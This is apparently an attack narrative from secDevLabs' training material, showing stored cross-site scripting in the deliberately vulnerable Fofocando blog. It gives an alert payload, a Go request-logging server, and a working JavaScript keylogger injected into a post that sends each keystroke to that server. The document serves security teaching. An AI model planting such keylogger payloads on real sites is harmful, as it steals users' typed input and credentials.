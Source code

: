 # Attack Narrative - Gossip World (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Fofocando Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/fofocando) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function() {
      k+=String.fromCharCode(window.event.keyCode);
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   <img src="attack-7.png" align="center"/>



When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.


<img src="attack-8.png" align="center"/>

<img src="attack-9.png" align="center"/>
